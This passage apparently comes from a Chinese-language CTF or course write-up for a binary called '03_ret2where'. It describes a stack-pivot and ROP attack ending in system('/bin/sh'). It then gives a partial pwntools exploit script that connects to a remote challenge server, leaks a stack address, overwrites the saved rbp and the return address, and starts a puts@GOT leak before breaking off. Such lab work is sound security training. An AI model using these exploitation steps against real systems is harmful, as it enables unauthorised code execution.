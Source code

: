 10. 控制流转到 `welcome()`后，在 `welcome()` 中进一步修改 `name[]` 为与第 2 题中第一次注入的内容相似的内容。`welcome()`调用`coda()`进而调用`_coda()`，在 `_coda()`中我们修改 saved rbp，使得后续运行 `leave`、`ret` 到 `coda()` 的剩余代码并经过`leave`后的 `rsp`指向 `name[]`的基地址，然后运行 `ret`就可以实现类似第 2 题的调用了。
11. 调用完 `puts(GOT(puts))`后返回到 `<welcome+5>` 再做一次 ROP，这时我们就可以调用 `system("/bin/sh")`了。

即，我们构造了这样的栈结构：<br />![61BE0DCB397584F6E5894ED77D09DE4C.png](./assets/1649344526390-9741fb69-0e72-435a-8b37-90e516df3ac4.png)
也就是这样：
![image.png](./assets/1649349696092-13f3029d-ce4b-4e27-8349-1831ec6fcf38.png)

编写脚本，得到正确结果：
![image.png](./assets/1649342296216-4dc55927-073a-4da4-b076-a55eb17a951b.png)

```python
from pwn import *

context.log_level = 'DEBUG'

conn = remote("116.62.228.23", 10303)
#conn = gdb.debug('./03_ret2where', 'b _coda')
#conn = gdb.debug('./03_ret2where', 'b *0x40125d')

conn.recvuntil("ID:\n")
conn.sendline("3190105871")

e = ELF('./03_ret2where')
puts_plt = e.symbols['puts']
puts_got = e.got['puts']
_coda_addr = e.symbols['_coda']
welcome_addr = 0x401263 
rdi_gadget = 0x401383

print("===== step 1 === get offset =====")

conn.recvuntil('please?\n')	# welcome, name

payload = b'0' * 0x20
conn.send(payload)

storeRecv = conn.recvline()
print(b"debug " + storeRecv[44:50])
welcome_rbp = u64(storeRecv[44:50]  + b'\x00\x00')
print("rbp addr: " + hex(welcome_rbp))

print("===== step 2 === jump from _coda() to welcome() =====")

conn.recvuntil('to say?\n')	# _coda, str

test_rbp = 0x7ffca19a2180
test_str = 0x7ffca19a20b0
print("str base: " + hex(test_str - test_rbp + welcome_rbp))
str_base = test_str - test_rbp + welcome_rbp

payload = b'0'*16 + p64(str_base + 16) + p64(welcome_addr)
conn.send(payload)

print("===== step 3 === put ROPchain #1 in name[] =====")

conn.recvuntil('please?\n')	# welcome, name

payload = p64(rdi_gadget) + p64(puts_got) + p64(puts_plt)+ p64(welcome_addr)
conn.send(payload)

print("===== step 4 === stack migration #1 get libc offset =====")
```